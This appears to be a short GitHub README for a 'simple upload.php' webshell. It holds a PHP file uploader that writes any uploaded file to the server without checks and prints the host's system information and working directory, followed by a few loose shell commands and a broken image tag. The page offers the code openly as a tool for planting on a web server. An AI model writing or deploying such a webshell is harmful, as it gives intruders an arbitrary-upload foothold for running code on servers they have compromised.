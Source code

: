 # webshell simple upload.php.

<img style="float:left" alt="route logo" src="https://github.com/hackingyseguridad/webshell/blob/master/webshell.png"> 


vim upload.php

<center><form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">
<center><input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form></center>
<?php if( $_POST['_upl'] == "Upload" ) { if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo 'Done !!'; } else { echo 'Failed :('; }} 
echo "<center><br><b>".php_uname()."</b><br></center>";
echo "<center><p><br><b>".getcwd()."</b><br></p></center>";
?>

cd ..

chmod +r carpeta

cd carpeta


img style="float:left" alt="route logo" src="https://github.com/hackingyseguridad/webshell/blob/master/shell.png"> 
